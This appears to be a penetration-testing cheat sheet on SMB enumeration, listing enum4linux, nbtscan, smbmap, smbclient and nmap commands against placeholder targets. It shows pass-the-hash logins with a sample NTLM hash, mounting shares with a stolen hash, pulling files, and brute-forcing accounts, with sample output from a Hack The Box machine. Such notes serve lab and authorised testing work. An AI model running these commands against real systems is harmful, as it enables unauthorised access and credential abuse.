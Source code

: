 # SMB Scanning
This module contains method sof gathering information from targets that have Samaba, or the Windows sharing service (SMB) enabled.
## Enum4LINUX

`enum4linux (TARGET IP)`

## NBTScan

```nbtscan (TARGET IP ADDRESS)```

## SMBMap
The basic syntax fo `smbmap` is as follows,
```smbmap -H (TARGET IP ADDRESS)```
But, if you have access to an NTLM hash, let's use `0B186E661BBDBDFFFFFFFFFFF8B9FD8B` for example, you can append the common Windows NULL string along with a colon, `aad3b435b51404eeaad3b435b51404ee` to it as,
```
aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B
```
and pass along the username, let's say `user123` for example, of the credentials to get more SMB map information like so,
```
wnl8:/pwnt/windows/smbmap# ./smbmap.py -u user123 -p 'aad3b435b51404eeaad3b435b51404ee:0B186E661BBDBDFFFFFFFFFFF8B9FD8B' -H (TARGET IP ADDRESS)
[+] Finding open SMB ports....
[+] Hash detected, using pass-the-hash to authentiate
[+] User session establishd on (TARGET IP ADDRESS)...
[+] IP: (TARGET IP ADDRESS):445	Name: ypuffy.hackthebox.htb                             
	Disk                                                  	Permissions
	----                                                  	-----------
	user123's Files                                    	READ, WRITE
	IPC$                                              	NO ACCESS
'
```
## SMBClient
SMBClient is very bad software and I believe it's because there are too many variables at stake when trying to successfully use it. Your results may vary, and please do not take any authentication or listing errors as true. Test your enumerated credentials and data using other tools as well. This section describes methods for mounting and listing directories in Samaba (LINUX)/Windows shares.
### Target information

`smbclient -N -L (TARGET IP)`
### Mounting shares
To mount a share without knowing any valid users (anonymous/guest login),
```smbclient "\\\\(TARGET IP)\\IPC\$\\" -N```
To mount a share with an enumerated username,
```smbclient "\\\\(TARGET IP)\\IPC\$\\" -N -U (USER)```
To mount a share with a username and stolen NTLM hash,
```root@attacker-machine:~# smbclient \\\\(TARGET IP ADDRESS)\\(SHARE NAME)\\ -U (DOMAIN NAME)\(USERNAME)%(FULL NTLM HASH)```

### File Transfers
To get a file from the target server,

`get "filename with or without spaces.txt"`

## NMAP
The NMAP Scripting Engine (NSE) can be used to brute-force accounts on the server,

`nmap --script smb-brute.nse -p445 (TARGET IP)`
